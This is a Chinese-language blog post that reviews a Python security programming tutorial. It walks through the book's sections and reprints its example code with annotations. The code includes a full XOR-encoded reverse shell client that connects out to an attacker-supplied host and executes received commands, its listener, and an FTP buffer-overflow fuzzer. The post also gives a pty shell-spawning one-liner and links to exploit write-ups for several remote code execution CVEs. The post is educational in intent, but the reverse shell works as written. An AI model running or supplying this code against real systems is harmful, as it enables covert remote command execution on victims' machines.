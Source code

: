 ```yaml
---
title: 读本好书 《Python 安全编程教程》
url: 490.html
id: 490
categories:
  - 未分类
date: 2018-10-29 00:00:00
tags:
---
```


已经地几本了，鼓励一下自己啦。这本主要是讲 `python` 用于安全相关的编程内容。本书的篇幅比较的短，这篇总结一下主要的内容。

* * *

我们是愚者，我们是一只蜂 `1.6*10^9 > 1.6*10^9` ，我们自己根据蓝图所画出的东西，超乎我们自己的想象。

简介
--

*   书名：Python 安全编程教程
*   原文：[Python Tutorials](http://www.primalsecurity.net/tutorials/python-tutorials/)
*   译者：[smartFlash](https://github.com/smartFlash)
*   来源：[pySecurity](https://github.com/smartFlash/pySecurity)
*   协议：[MIT License](https://github.com/smartFlash/pySecurity/blob/master/LICENSE)

* * *

这是一本技术类书籍，主要内容是 Python 相关的安全类的书。

入门
--

*   使用 `help` 函数，可以很方便的查看函数的相关说明

端口扫描
----

简单的端口扫描功能，使用 socket 进行连接的建立，如果连接失败，代表端口未开放。这个效率当然是比较低的。一般是只是用 `SYN` 得到 `ACK` 之后就直接结束会话。

    for port in range(20,25):
        try:
            print "[+] Attempting to connect to 127.0.0.1:"+str(port)
            s.connect(('127.0.0.1', port))
            s.send('Primal Security \n')    
            banner = s.recv(1024)
            if banner:
                print "[+] Port "+str(port)+" open: "+banner
            s.close()
        except: pass

书中的示例代码如上：上面对于未打开端口，捕获其异常。不做任何操作。在循环中轮询端口，建立连接，

反向Shell
-------

Shell 是个耳熟的，分两个类型，`正向Shell` 与 `反向Shell`。 分别为 **reverse** 和 **bind** 。正向shell 可以理解为，客户端打开了一个端口，我们组主动连接客户端。 反向shell 指的是，我们本地打开端口，让受控的客户端去连接我们。

* * *

具体的代码，书中已经给出了，内容简单易读，这里加上些注释吧：

    import socket,subprocess,sys
    
    RHOST = sys.argv[1]
    RPORT = 443
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST, RPORT))
    
    while True:
         # 从socket中接收XOR编码的数据 < 这里学着点，使用了简单的异或加密。
         data = s.recv(1024)
    
         # XOR the data again with a '\x41' to get back to normal data
         en_data = bytearray(data)
         for i in range(len(en_data)):
           en_data[i] ^=0x41        # 异或操作
    
         # 执行解码命令，subprocess模块能够通过PIPE STDOUT/STDERR/STDIN把值赋值给一个变量
         comm = subprocess.Popen(str(en_data), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
         STDOUT, STDERR = comm.communicate()
    
         # 输出编码后的数据并且发送给指定的主机RHOST
         en_STDOUT = bytearray(STDOUT)
         for i in range(len(en_STDOUT)):
           en_STDOUT[i] ^=0x41
         s.send(en_STDOUT)
    s.close()

* * *

上面的代码其实是很简单的。建立连接之后，对我们的的远程的传入命令进行执行。这里一个 point 是: `subprocess` 的模块的使用。

`subprocess` 和 `os.system` 不同，前者可以把输出进行向变量的重定向。可以得到命令执行吼的完整的回显。然而如果使用 后者 ，只会得到 其进程 **返回值**， 值得注意的是，system 的返回值是 linux 的标准的左移 **8位** 后的值。

* * *

**发送部分**

    import socket 
    
    s= socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", 443))
    s.listen(2)
    
    print "Listening on port 443... "
    (client, (ip, port)) = s.accept()
    print " Received connection from : ", ip
    
    while True:
        command = raw_input('~$ ')  # 等待输入和打印提示符
        encode = bytearray(command)
        for i in range(len(encode)):
            encode[i] ^=0x41
        client.send(encode)
        en_data=client.recv(2048)
        decode = bytearray(en_data)
    
        for i in range(len(decode)):
            decode[i] ^=0x41
            # 解码并且进行打印。
        print decode
    
    client.close()
    s.close()

模糊测试 （fuzzing）
--------------

> 模糊测试 是一种软件测试技术。其核心思想是自动或半自动的生成随机数据输入到一个程序中，并监视程序异常，如崩溃，断言失败，以发现可能的程序错误，比如内存泄漏。

基于 python 实现的模糊测试的脚本。具体思想，就是提交大量的随机模拟输入，来发现系统的潜在的问题。实现思想就是，模拟用户提交，发现问题之后进行上报。书中的代码如下，一样是是自己去添加一些注释

    import sys, socket
    from time import sleep
    
    target = sys.argv[1]
    buff = '\x41'*50
    
    while True:
      #使用"try - except"处理错误与动作
      try:
        # 连接这目标主机的ftp端口 21
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.settimeout(2)
        s.connect((target,21))
        s.recv(1024)
    
        print "Sending buffer with length: "+str(len(buff))
        #发送字符串:USER并且带有测试的用户名
        s.send("USER "+buff+"\r\n")
        s.close()
        sleep(1)
        #使用循环来递增直至长度为50
        buff = buff + '\x41'*50
    
      except: # 如果连接服务器失败，我们就打印出下面的结果
        print "[+] Crash occured with buffer length: "+str(len(buff)-50)
        sys.exit()

emmm 这个其实也是没啥好注释的了，内容简单明了，算是点开了一种妙用。

内容压缩
----

*   **py2exe** 把python 文件打包成一个 exe 进行发布
*   **Web 请求及解析** Beautiful Soup和urllib/urllib2
*   **爬虫** [spider模块](https://pypi.python.org/pypi/spider.py/) 有现成的模块可以用啦 `from spider import webspider as myspider`
*   **Whois自动查询** [Whois 模块](https://pypi.python.org/pypi/cymruwhois/1.0)
*   **Python 与 Metasploit**
*   **虚拟终端** 和 反向shell 不同，终端是用于直接打开一个 终端程序 `python -c "import pty;pty.spawn("/bin/bash")"`
*   **[基于 Python 的远控](https://wizardforcel.gitbooks.io/py-sec-tutorial/content/zh-cn/0xc.html)** 这个东西虽然有 py2exe 感觉还是比较鸡肋吧，实现了添加注册表自启动，和弹shell的功能，不过有时候 之前用的 [veil](https://github.com/Veil-Framework/Veil) 也是使用的 python 做的免杀。

EXP的编写
------

这里书中列出了几个简易的 EXP 的脚本，是一件被挖掘的 RCE （远程代码执行）， 和 LFI （本地文件包含） 的漏洞。实现的是 poc 的改变实现的功能，漏洞本身原理，还是有待挖掘的。这里就简单的先列出来吧，做个小表格，对漏洞有个基础的了解。

CVE

类型

[CVE-2014-6271](https://wizardforcel.gitbooks.io/py-sec-tutorial/content/zh-cn/0x13.html)

bash 远程代码执行

[CVE-2012-1823](https://wizardforcel.gitbooks.io/py-sec-tutorial/content/zh-cn/0x14.html)

php-cgi 远程代码执行

[CVE-2014-3704](https://wizardforcel.gitbooks.io/py-sec-tutorial/content/zh-cn/0x16.html)

SQL 注入

[CVE-2012-3152](https://wizardforcel.gitbooks.io/py-sec-tutorial/content/zh-cn/0x15.html)

Oracle本地文件包含
